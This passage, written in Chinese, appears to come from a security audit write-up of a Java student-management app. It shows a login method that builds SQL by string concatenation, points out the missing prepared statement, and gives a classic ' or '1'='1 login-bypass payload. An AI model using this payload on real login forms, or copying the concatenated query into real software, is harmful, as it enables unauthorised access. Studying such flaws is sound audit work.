 跟进 `studentD.checkAccount()` 里查看 ，在 `src/dao/StudentD.java` 里看到了SQL语句，重要代码如下：

```java
 public Student checkAccount(String user, String password) throws Exception {
        initConnection();
        Statement stat = conn.createStatement();
        String sql = "select * from student where id = '" + user + "' and password = '" + password + "'";
        ResultSet rs = stat.executeQuery(sql);
        Student stu = getStudent(rs);
        closeConnection();
        return stu;
    }
```

这是直接拼接 sql ，没用 `?` 来预编译

所以直接造成注入

## 漏洞利用

直接万能密码登录：

```
20162430634' or '1'='1
sfsaafafafafa
```

<img src=".\图片\Snipaste_2023-05-29_12-25-30.png" alt="Snipaste_2023-05-29_12-25-30" style="zoom:67%;" />
